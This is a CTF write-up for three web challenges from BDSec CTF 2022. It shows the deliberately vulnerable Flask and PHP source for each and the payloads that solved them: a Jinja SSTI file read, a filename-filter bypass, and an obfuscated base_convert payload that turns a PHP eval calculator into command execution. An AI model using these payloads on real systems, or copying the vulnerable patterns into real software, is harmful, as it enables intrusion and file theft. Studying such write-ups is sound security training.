


# BDSec CTF 2022 - Web
------------------------

## Jungle Templating
#### about :
- Type: web 
- Level: easy
- Points : 100

<center></center>

As we look in the application source code , and the hint of the title , we can guess its ssti vulnerabilty : 
```python
from flask import *
app = Flask(__name__)

@app.route('/',methods=['GET', 'POST'])
def base():
    person = ""
    if request.method == 'POST':
      if request.form['name']:
        person = request.form['name']
    palte = '''
    <!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Secure Search</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0-beta1/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-0evHe/X+R7YkIZDRvuzKMRqM+OrBnVFBL6DOitfPri4tjfHxaWutUpFmBp4vmVor" crossorigin="anonymous">
  </head>
  <body>
    <h1 class="container my-3">Hi, %s</h1>
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0-beta1/dist/js/bootstrap.bundle.min.js" integrity="sha384-pprn3073KE6tl6bjs2QrFaJGz5/SUsLqktiwsUTF55Jfv3qYSDhgCecCxMW52nD2" crossorigin="anonymous"></script>
    <div class="container my-3">
        <form action="/" method="post">
            <div class="mb-3">
              <label for="text" class="form-label">Type your name here:- </label>
              <input type="text" class="form-control" name="name" id="text" value="">
            </div>
            <button type="submit" class="btn btn-primary">See magic</button>
          </form>
    </div>
</body>
</html>'''% person
    return render_template_string(palte)

if __name__=="__main__":
	app.run("0.0.0.0",port=5000,debug=False)
```

as you can see `%s` can replaced with anything , we can check for ssti in this flask app using `{{7*7}}` it gives the result 49 , then its vulnerable , we are going to read yhe file flag on the same directory using the payload : `{{ get_flashed_messages.__globals__.__builtins__.open("flag").read() }}`

flag : **BDSEC{Y3Y_7H1515_7H3_F146}**

## Awesome Note Keeping
#### about :
- Type:  web
- Level: easy
- Points : 100

<center></center>

as we look on the source code we find this line : 

```html
    <!-- Hi Seli, I have created this awesome note keeping web app today. I have saved a backup file index.php.bak for you. Download it and check it out.  -->
```
The source code is in the `index.php.bak` file on the server , you can find it [here](../src/Ank-index.php). if we look in the note reading code : 

```php
    if (isset($_GET["note_title"]) && !empty($_GET["note_title"]) && $_GET["note_title"] != "flag") {
        if (file_exists($_GET["note_title"] . ".txt")) {
            $myNote = fopen($_GET["note_title"] . ".txt", "r");
            echo fread($myNote, filesize($_GET["note_title"] . ".txt"));
            fclose($myNote);
        } else {
            echo "Sorry ! Couldn't find any note with that title.";
        }
    }
```
cit checks if the name submitted not equal to flag , else it reads the `$note . 'txt'`  , we can read the flag if we can make the title isn't only `flag` , first idea to come is trying `./flag` and it worked : 

flag : **BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}**

There was another method, if we look in the note saving code : 
```php
$note_title = str_replace("flag", "", $_POST["note_title"]);
            if (!empty($note_title)) {
                if (file_exists($note_title . ".txt")) {
                    echo "There is already a note with that title and the note is <br>";
                    $note_title = str_replace("flag", "", $note_title);
                    $myNote = fopen($note_title . ".txt", "r");
                    echo fread($myNote, filesize($note_title . ".txt"));
                    fclose($myNote);
                } else {
                    $myNote = fopen($note_title . ".txt", "w");
                    fwrite($myNote, $_POST["note"]);
                    fclose($myNote);
                    echo "Your note has been saved.";
                }
            } 
```
first it removes the word flag from text , it checks if file exists, if yes we remove again flag from text , and read the file. this algorithme is flawed , suppose we save a note with the name `flflflagagag` after first remove the file will be `flflagag.txt` , it will be created and stored , if we try to create a nother note with the same title `flflflagagag` , the file `flflagag.txt` already exist , then we remove the second 'flag' it becomes flag the file will then be `flag.txt` , and it will output it as the note already exists , this will output the flag.


## Awesome Calculator
#### about :
- Type: web 
- Level: easy
- Points : 100

we have in the source code: 
```php
<?php

function filtering($query) {
    $query = strtolower($query);
    preg_match_all("/([a-z_]+)/", $query, $words);
    $words = $words[0];
    $good = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh', 'ncr', 'npr', 'number_format', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand'];
    $accept_chars = 'abcdefghijklmnopqrstuvwxyz0123456789.!^&|+-*/%()[],_';
    $accept_chars = str_split($accept_chars);
    $illegal = '';
    for ($i = 0; $i < count($words); $i++) {
        if (strlen($words[$i]) && array_search($words[$i], $good) === false) {
            $illegal .= $words[$i] . " ";
        }
    }

    for ($i = 0; $i < strlen($query); $i++) {
        if (array_search($query[$i], $accept_chars) === false) {
            $illegal .= $query[$i] . " ";
        }
    }
    return $illegal;
}

function do_calculations($argument) {
    if (strlen($argument) > 1030) return "Calculation too long.";
    $argument = strtolower($argument);
    $illegal = filtering($argument);
    $result = '';
    if (strlen(str_replace(' ', '', $illegal)))
        $result = "Oh my god ! What is this: " . $illegal;
    else
        eval('$result=' . $argument . ";");
    return $result;
}
isset($_GET['source']) && die(highlight_file(__FILE__));
?>
```

it looks like a secure eval calculation or maybe not !! 

if we read this [article](https://www.hackvuln.com/2021/02/rce-with-eval-math-functions-in-php.html) it shows how we can get an RCE using only math function , the idea is using **base_convert** , the final payload to read the flag is : 
`base_convert(1751504350,10,36)(base_convert(9911,10,28)(99).base_convert(9911,10,28)(97).base_convert(9911,10,28)(116).base_convert(9911,10,28)(32).base_convert(9911,10,28)(46).base_convert(9911,10,28)(47).base_convert(9911,10,28)(102).base_convert(9911,10,28)(108).base_convert(9911,10,28)(42))` , another variation is `(base_convert(1751504350, 10, 36))((base_convert(37907361743, 10, 36))(base_convert(426836762666, 10, 16)))`

flag : **BDSEC{aW3sOm3_c4LcUl4T1oN_iS_NoT_S4f3}**
